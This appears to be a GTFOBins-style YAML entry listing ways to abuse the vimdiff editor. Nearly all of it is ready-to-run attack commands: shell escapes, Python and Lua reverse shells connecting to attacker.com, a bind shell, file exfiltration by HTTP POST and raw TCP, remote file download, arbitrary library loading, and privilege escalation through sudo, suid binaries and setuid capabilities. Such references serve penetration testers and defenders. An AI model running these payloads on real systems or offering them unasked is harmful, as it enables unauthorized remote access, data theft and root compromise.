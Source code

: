 ```yaml
---
functions:
  shell:
    - code: vimdiff -c ':!/bin/sh'
    - code: |
        vimdiff
        :set shell=/bin/sh
        :shell
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vimdiff` is compiled with Lua support.
      code: vimdiff -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vimdiff -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vimdiff -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        vimdiff -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        vimdiff -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        vimdiff -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        vimdiff file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vimdiff file_to_read
  library-load:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vimdiff -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vimdiff -c ':!/bin/sh'
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vimdiff` is compiled with Lua support.
      code: sudo vimdiff -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `vimdiff` is compiled with Lua support.
      code: ./vimdiff -c ':lua os.execute("reset; exec sh")'
---
```

